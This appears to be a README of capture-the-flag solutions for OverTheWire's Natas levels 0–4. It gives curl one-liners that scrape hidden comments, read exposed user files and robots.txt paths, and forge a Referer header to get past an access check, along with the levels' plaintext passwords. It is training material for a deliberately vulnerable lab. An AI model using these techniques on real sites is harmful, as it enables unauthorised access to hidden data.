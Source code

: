 # Solution

---

- natas0
    - ```Login to web:```
    - ```inspec element the page and look for comments```

- other solution:
    - ```view-source:http://natas0.natas.labs.overthewire.org/```

- curl:
    - ```curl -sv http://natas0.natas.labs.overthewire.org/ --user natas0:natas0 | grep -oe '<!--[A-Za-z].*' | cut -d ' ' -f6```

- python:
    - [natas0/solve.py](https://github.com/catx0rr/overthewire/blob/master/natas/natas1/solve.py)

- natas1
    - ```Login to web:```
    - ```view-source:http://natas0.natas.labs.overthewire.org/```

- curl:
    - ```curl -sv http://natas1.natas.labs.overthewire.org --user natas1:gtVrDuiDfck831PqWsLEZy5gyDz1clto | grep -o '<!--[A-Za-z].*' | awk '{print $6}'```
- python:
    - [natas1/solve.py](https://github.com/catx0rr/overthewire/blob/master/natas/natas1/solve.py)

- natas2
    - ```Login to web:```
    - ```view-source:http://natas2.natas.labs.overthewire.org```
    - ```click on files/pixel.png```
    - ```go back one directory and found users.txt```

- curl:
    - ```curl -sv http://natas2.natas.labs.overthewire.org/files/users.txt --user natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi | grep natas3 | awk -F: '{print $2}'```

- python:
    - [natas2/solve.py](https://github.com/catx0rr/overthewire/blob/master/natas/natas2/solve.py)

- natas3
    - ```Login to web:```
    - ```view-source:http://natas3.natas.labs.overthewire.org```
    - ```HINT:Not even Google will find it this time...```
    - ```http://natas3.natas.labs.overthewire.org/robots.txt```
    - ```Found: /s3cr3t/```
    - ```http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt```

- curl:
    - ```curl -sv http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt --user natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 | grep natas4 | cut -d':' -f2```

- python:
    - [natas3/solve.py](https://github.com/catx0rr/overthewire/blob/master/natas/natas3/solve.py)

- natas4
    - ```Login to web:```
    - ```Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/" ```
    - ```Intercept data using proxy and burpsuite```
    - ```refresh page```
    - ```get a referer header from burpsuite: Referer: http://natas4.natas.labs.overthewire.org/index.php```
    - ```Send packet after changing request header to http://natas5.natas.labs.overthewire.org/```

- curl:
    - ```curl -sv http://natas4.natas.labs.overthewire.org/index.php -H "Referer: http://natas5.natas.labs.overthewire.org/" --user natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ | grep "Access" | cut -d' ' -f8```

-python:
    - [natas4/solve.py](https://github.com/catx0rr/overthewire/blob/master/natas/natas4/solve.py)
